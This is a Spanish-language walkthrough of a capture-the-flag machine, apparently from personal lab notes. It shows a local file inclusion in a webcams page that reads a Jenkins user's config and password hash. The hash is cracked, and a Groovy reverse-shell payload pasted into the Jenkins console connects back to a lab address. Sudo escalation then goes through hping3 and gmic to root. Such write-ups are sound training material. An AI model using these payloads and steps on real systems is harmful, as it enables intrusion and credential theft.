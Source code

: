 Hacemos el escaneo con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230926152610.png]]
Y esto corre en el puerto 80 y un jenkins en el 8080:
![[Mis apuntes/ANEXOS/Pasted image 20230926152738.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230926152746.png]]
Si hacemos fuzzing al puerto 80 vemos el directorio /webcams:
![[Mis apuntes/ANEXOS/Pasted image 20230926154219.png]]
Y tenemos esta web dentro del directorio webcams:
![[Mis apuntes/ANEXOS/Pasted image 20230926154239.png]]
Dentro de estas webs podemos ver cómo es posible que podamos apuntar contra archivos internos de la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230926154607.png]]
Por tanto investigamos si en jenkins hay algún archivo donde podamos acceder y ver información sensible:
![[Mis apuntes/ANEXOS/Pasted image 20230926154642.png]]
Y vemos que funciona:
```bash
view-source:http://192.168.0.76/webcams/includecam.php?cam=/var/lib/jenkins/users/users
```
![[Mis apuntes/ANEXOS/Pasted image 20230926154732.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230926154740.png]]
```bash
andrew_15328478385288074167
```
Pero si añadimos config dentro de la url, podremos obtener la contraseña de este usuario:
```bash
view-source:http://192.168.0.80/webcams/includecam.php?cam=/var/lib/jenkins/users/andrew_15328478385288074167/config
```
![[Mis apuntes/ANEXOS/Pasted image 20230928083820.png]]
Por tanto, nos copiamos este hash dentro de un archivo y lo crackeamos con john the ripper:
```bash
jbcrypt:$2a$10$V.wxGyfowdGEVLvpQt5DROedmKKUp11g922/V.tb1xmi8eYe7rmzu
```
![[Mis apuntes/ANEXOS/Pasted image 20230928083919.png]]
Por tanto ya tenemos las siguientes credenciales para entrar dentro del panel de administración de jenkins:
```bash
andrew:andrew1
```
Y estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230928084422.png]]
En este punto vamos a explotar una vulnerabilidad parecida a la máquina [[MAQUINA INTERNAL (wordpress wpscan, hydra http, portforwarding chisel y hacking jenkins en docker)]]:
![[Mis apuntes/ANEXOS/Pasted image 20230928084558.png]]
Una vez aquí, pegamos el siguiente payload:
```bash
String host="10.8.100.91";
int port=444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![[Mis apuntes/ANEXOS/Pasted image 20230928084619.png]]
Y con netcat habremos recibido la conexión:
![[Mis apuntes/ANEXOS/Pasted image 20230928084640.png]]
Tenemos el usuario andrew:
![[Mis apuntes/ANEXOS/Pasted image 20230928085317.png]]
Y vemos este permiso de sudo:
![[Mis apuntes/ANEXOS/Pasted image 20230928085101.png]]
Y podemos convertirnos en el usuario andrew de la siguiente forma:
```
sudo -u andrew /usr/sbin/hping3
/bin/bash
```
![[Mis apuntes/ANEXOS/Pasted image 20230928085418.png]]
Y volvemos a enumerar permisos de sudo:
![[Mis apuntes/ANEXOS/Pasted image 20230928085529.png]]
Y esto es lo que hace ese binario gmic:
![[Mis apuntes/ANEXOS/Pasted image 20230928085609.png]]
Y dentro del manual de instrucciones de esto, tenemos como ejecutar un comando con gmic:
```bash
https://fr.manpages.org/gmic
```
![[Mis apuntes/ANEXOS/Pasted image 20230928085848.png]]
Por tanto, ejecutamos este comando y ya somos root:
```bash
sudo /usr/bin/gmic -exec bash
```
![[Mis apuntes/ANEXOS/Pasted image 20230928085922.png]]
